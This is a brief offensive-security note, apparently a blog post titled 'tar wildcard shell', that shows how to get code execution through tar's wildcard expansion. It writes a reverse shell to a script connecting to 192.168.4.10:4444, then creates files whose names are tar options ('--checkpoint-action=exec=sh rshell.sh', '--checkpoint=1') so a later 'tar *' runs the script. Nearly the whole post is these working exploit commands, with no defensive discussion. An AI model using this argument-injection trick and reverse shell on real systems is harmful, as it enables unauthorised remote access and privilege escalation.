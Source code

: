 ```yaml
---
layout: post
title: tar wildcard shell
titledate: 11/01/23
tags: ["infosec", "offsec", "shell"]
---
```


#### passing cmd/script to tar execution

    $ echo "sh -i >& /dev/tcp/192.168.4.10/4444 0>&1" > rshell.sh
    $ echo "" > "--checkpoint-action=exec=sh rshell.sh"
    $ echo "" > --checkpoint=1